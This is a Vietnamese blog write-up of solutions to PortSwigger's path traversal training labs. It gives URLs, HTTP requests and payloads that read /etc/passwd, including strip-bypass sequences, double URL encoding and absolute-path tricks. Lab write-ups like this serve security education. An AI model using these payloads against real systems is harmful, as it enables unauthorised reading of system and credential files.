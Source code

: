 ```yaml
---
title: "[PortSwigger Lab] - Path Traversal"
description: Solution of Path Traversal on PortSwigger Lab
date: 2025-06-01 11:00:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, path traversal, directory traversal]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-01-portswigger-lab-path-traversal/path-traversal.png
    alt: Path Traversal
---
```


## Introduction
--- 

**Path traversal** còn được gọi là **Directory traversal**. Các lỗ hổng này cho phép kẻ tấn công đọc các tệp tùy ý trên máy chủ đang chạy một ứng dụng. Điều này có thể bao gồm:
- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.

Trong một số trường hợp, kẻ tấn công có thể ghi vào các tệp tùy ý trên máy chủ, cho phép chúng sửa đổi dữ liệu hoặc hành vi ứng dụng và cuối cùng kiểm soát toàn bộ máy chủ.

## Solve Path Traversal Lab
---
- **Relative path:** `../../../etc/passwd`
- **Absolute path:** `/etc/passwd`
- **View images**: Filter settings > Filter bt MINE type > enable `images`
### Lab: File path traversal, simple case
- Mở 1 image bất kỳ
```
https://0af90002046a785a82be974700ff007e.web-security-academy.net/image?filename=8.jpg
```

- Thay đổi đường dẫn của image
```
https://0af90002046a785a82be974700ff007e.web-security-academy.net/image?filename=../../../etc/passwd
```

- Điều này khiến ứng dụng đọc từ đường dẫn tệp sau
```
/var/www/images/../../../etc/passwd
```

- Trình tự `../` có giá trị trong một **file path** và có nghĩa là để tăng một cấp trong cấu trúc thư mục. Ba chuỗi liên tiếp `..`:
    - Lần 1:
    ```
    /var/www/../../etc/passwd
    ```
    - Lần 2:
    ```
    /var/../etc/passwd
    ```
    - Lần 3:
    ```
    /etc/passwd
    ```

- Cuối cùng ứng dụng hiển thị nội dung của file `/etc/passwd`
- `/etc/passwd` là một tập tin hệ thống rất quan trọng trong các hệ điều hành **Unix**và **Linux**. Nó lưu trữ thông tin về user trên hệ thống. Dù tên là `"passwd" (password)`, nhưng mật khẩu thực tế không còn được lưu ở đây nữa mà được lưu trong tệp `/etc/shadow` với quyền truy cập hạn chế hơn.
- Truy cập **HTTP history** để xem nội dung

### File path traversal, traversal sequences blocked with absolute path bypass
- `../` đã bị block, cần bypass thông qua **absolute path**
- Mở 1 file ảnh bất kỳ trong tab mới
```
https://0a35004b0379e87d805eb796009c003b.web-security-academy.net/image?filename=33.jpg
```
- Thay đổi tên ảnh bằng **absolute path**: `/etc/passwd`
```
https://0a35004b0379e87d805eb796009c003b.web-security-academy.net/image?filename=/etc/passwd
```
- Truy cập **HTTP history** để xem nội dung

### File path traversal, traversal sequences stripped non-recursively
#### Analysis
Ở lab này, chương trình sẽ loại bỏ các **traversal sequences**, tức:
```
../../../etc/passwd
```
Sẽ trở thành
```
etc/passwd
```
Chương trình sẽ xóa tất cả `../` ra khỏi chuỗi

#### Exploit
Ý tưởng: vẫn để chương trình loại bỏ `../`, nhưng vẫn giữ được đường dẫn tương đối đến `/etc/passwd`
- Payload 1: ..././..././..././etc/passwd
- Payload 2: ....//....//....//etc/passwd
- Payload 3: ....\/....\/....\/etc/passwd

Sau khi chương trình đã loại bỏ `../` hoặc `..\` thì mọi thứ đểù trở thành `../../../etc/passwd`
> **Windows** sử dụng cả `../` và `..\`
{: .prompt-info}

- Thay đổi đường dẫn hình ảnh sử dụng các payload trên.
- Truy cập **HTTP history** để xem nội dung

### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode
#### Analysis
- Để giải quyết lab này, cần phải **encode url** 2 lần
- Mốt số trường hợp webserver decode 1 lần và kiểm tra `../` có tồn tại không để thực hiện logic khác
- Sau khi decode 1 lần, request được gửi đến **Backend** để xử lý, và **Path traversal** xảy ra
#### Exploit
- Gửi request đến **Repeater**, thay đổi đường dẫn
```http
GET /image?filename=../../../etc/passwd HTTP/2
Host: 0a24006d03b4e0b48025dad200d800f9.web-security-academy.net
```

- Bôi đen `../../../`, tại tab **Inspector**, phần **Decoded from** chon ký hiệu `+`
- Ở phần **Decoded from** vửa được tạo, click **select**, chọn **URL encoding**
- Tại đó, nhập lại `../../../`
- Copy nội dung phần **Selected text** và dán vào request
```http
GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/2
Host: 0a24006d03b4e0b48025dad200d800f9.web-security-academy.net
```

### Lab: File path traversal, validation of start of path
- Mở 1 file ảnh tùy ý ở tab khác và gửi nó đến **Repeater**
- Ta thấy nó chỉ định bắt đầu từ `/var/www/image/filepath`
```http
GET /image?filename=/var/www/images/38.jpg HTTP/2
Host: 0a3c0092041de0d6800dc688002700bb.web-security-academy.net
```
- Thay đổi request để đọc file `/etc/passwd`
```http
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/2
Host: 0a3c0092041de0d6800dc688002700bb.web-security-academy.net
```

---
Goodluck! 🍀🍀🍀
